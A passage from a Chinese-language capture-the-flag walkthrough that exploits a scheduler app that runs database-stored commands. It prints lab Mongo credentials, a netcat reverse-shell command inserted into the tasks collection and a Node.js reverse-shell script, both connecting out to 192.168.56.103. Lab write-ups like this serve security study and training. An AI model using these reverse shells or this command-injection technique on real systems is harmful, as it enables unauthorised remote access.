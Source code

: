 看到 / var/scheduler/app.js 的 tom 用户下运行的调度程序应用程序....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMEU5b9b8ialHRtmjOfCcmzn3iaUQfTeWDsgRqmoibpvjwNav1ynkZL2WQe1Hszibhurx3zjPewHsqIog/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMEU5b9b8ialHRtmjOfCcmznQwrtfPQhz3CvVwQ8zZq7m9ViaFHsXRTM46PwbnBcOf7HdPd7zibStq3g/640?wx_fmt=png)

可以获得的信息...

可以链接到 Mongo 数据库....doc.cmd 每个带有字段 cmd 的文档上执行... 每 30 秒 setInterval 调用一次函数并执行...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMEU5b9b8ialHRtmjOfCcmznrIss7E0rz4WQic2bNoPjvRDKumfibRpD7LqBFwjiafUOSDTupTuOas87w/640?wx_fmt=png)

```
mongo -u mark -p 5AYRft73VtFpc84k scheduler
show collections
db.tasks.find({})
db.tasks.insert({cmd: "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.103 4444 >/tmp/f"})
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.103 4444 >/tmp/f
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMEU5b9b8ialHRtmjOfCcmznNzDHINSu5g7WRDraNgrLw4u6Za6TN93rlBHmsiava5ibKTicJxXT2hoMQ/640?wx_fmt=png)

使用 mark 的凭据访问 Mongo 数据库，插入一个新文档以在 “cmd” 字段中添加一个反向 shell 命令，本地开启 NC 监听，执行的命令和脚本

```
[参考](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
```

... 可以查看到第一个 user 的标志...  

当然这里还有别的方法在 JavaScript 中创建一个反向 shell...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMEU5b9b8ialHRtmjOfCcmznDkFRcdNhmKI5dqKqW9fFiat0yI6Qj1AYmqgKR2wJFicGOlFiaH1vah7xg/640?wx_fmt=png)

```
1、mongo -u mark -p 5AYRft73VtFpc84k scheduler
2、show collections
3、db.tasks.findOne()
4、db.tasks.insert({"cmd": "/usr/bin/node /tmp/dayushell.js"})
shell：
 - (function(){
 var net = require("net"),
  cp = require("child_process"),
  sh = cp.spawn("/bin/sh", []);
 var client = new net.Socket();
 client.connect(1234, "192.168.56.103", function(){
  client.pipe(sh.stdin);
  sh.stdout.pipe(client);
  sh.stderr.pipe(client);
 });
 return /a/; // Prevents the Node.js application form crashing
})();
```

在 / tmp / 目录写入一个 shell，然后就可以对 mongodb 通过 mark 凭据建立与凭证进行链接... 等待 30 秒即可获得权限...
